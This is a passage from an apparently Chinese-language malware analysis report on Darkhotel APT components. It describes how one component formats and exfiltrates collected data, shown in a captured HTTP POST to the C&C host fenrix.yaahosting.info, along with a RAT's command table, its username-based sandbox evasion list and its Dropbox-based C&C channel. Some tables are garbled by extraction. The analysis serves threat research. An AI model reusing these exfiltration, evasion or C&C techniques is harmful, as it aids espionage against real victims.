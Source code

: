<html><body><table><tr><td>user2 encrypted_base64;mac_hash;encrypt_key;info_</td><td>encrypted_base64</td></tr><tr><td>元素</td><td>内容</td></tr><tr><td>user2_encrypted_base64:</td><td>字符串 user2" 加密和编码值。多个类似组件中 的字符串均为 user2”，可能是某个被攻击目标 的代号。</td></tr><tr><td>mac_hash:</td><td>MAC地址的hash值</td></tr><tr><td>encrypt_key</td><td>加密密钥</td></tr><tr><td>info_encrypted_base64</td><td>前文所述收集的信息。</td></tr></table></body></html>  

之后连接C&C回传数据，返回的HTTP内容需包含字符串“minmei"方可有效，否则继续连接C&C。对每个C&C发起最多3次连接，若均失败则更换新的C&C。  

POST /html/docu.php HTTP/1.1   
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Host: fenrix.yaahosting.info   
Content-Length:317   
Connection:Keep-Alive   
Cache-Control: no-cache   
JTQZCXw=;448a60191f8f5f31c03166fed72bacac;   
90ed768ab728a0f74a4b957c31f1a213;GSkaFHVHbysAPQkaCyIPbnFYASofAmMqCQgXOxcnaGJgc0xCZ0dv0  

# 四、RAT 2015  

## 4.1功能性质  

该RAT组件与C&C通信，并根据C&C指令执行信息搜集、文件、进程等操作。  

## 4.2环境检测  

2015年的Darkhotel最终载荷显示出极强的针对性，会检测用户名，若为以下用户，则不会执行后续流程：  

·antonie   
· Antony   
· janettedoe   
·makrorechner   
·Dave   
·Hanuele Baser   
· Administrator   
· User  

## 4.3 C&C指令  

该组件与C&C的通信指令如下：  

<html><body><table><tr><td>指令</td><td>功能</td><td>更详细内容</td></tr><tr><td>1</td><td>获取计算机名称，用户名，系统版本号，程序文件名</td><td></td></tr><tr><td>C2</td><td>采集活动进程信息</td><td>Pid/ParentPid/ProcessName</td></tr><tr><td></td><td>查询指定文件夹下文件信息</td><td>文件属性，最后写入时间，文件大小，文件名</td></tr><tr><td>4</td><td>字符串转数字</td><td></td></tr><tr><td>L</td><td>获取程序版本号</td><td></td></tr><tr><td></td><td>删除指定文件</td><td></td></tr></table></body></html>  

值得一提的是，以上通讯均通过DropboxApi完成，与APT37的组件类似。C&C下发内容均经过LZNT1压缩并使用3DES加密。数据上传前同样经过LZNT1压缩，与xor加密。  
比外，该组件会下载执行升级版或其他程序。  

# 五、 RAT kbxxxxUpd.dll  
